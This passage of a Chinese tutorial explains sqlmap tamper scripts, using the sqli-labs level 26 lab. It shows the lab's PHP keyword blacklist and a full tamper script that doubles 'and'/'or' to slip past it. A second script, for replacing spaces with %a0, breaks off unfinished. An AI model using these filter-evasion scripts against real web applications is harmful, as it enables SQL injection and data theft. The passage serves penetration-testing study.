 [SqlMap 1.2.7.20 Tamper详解及使用指南](https://www.freebuf.com/sectool/179035.html)

这里以sqli-labs的26关来进行，查看一下过滤函数，发现过滤了:`or`,`and`,`/*`,`--`,`#`,空格和斜杠(**注意这里php环境是5.2.17，版本不一样会有问题**)
```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
	return $id;
}
```
发现可以双写绕过and和or，`%a0`可以绕过空格
双写绕过脚本double-and-or.py：
```python
#!/usr/bin/env python
# -*- coding:UTF-8 -*-

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
# 导入正则模块，用于字符的替换
import re
# sqlmap中lib\core\enums中的PRIORITY优先级函数
from lib.core.enums import PRIORITY
# 定义脚本优先级
__priority__ = PRIORITY.NORMAL

# 脚本描述函数
def dependencies():
    pass

def tamper(payload, **kwargs):
    # 将payload进行转存
    retVal = payload
    if payload:
        # 使用re.sub函数不区分大小写替换and和or
        # 替换为anandd和oorr
        retVal = re.sub(r"(?i)(or)", r"oorr", retVal)
        retVal = re.sub(r"(?i)(and)", r"anandd", retVal)
    # 把最后修改好的payload返回
    return retVal
```
第二个空格替换脚本space2A0.py：
```python
#!/usr/bin/env python
# -*- coding:UTF-8 -*-

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW


def dependencies():
```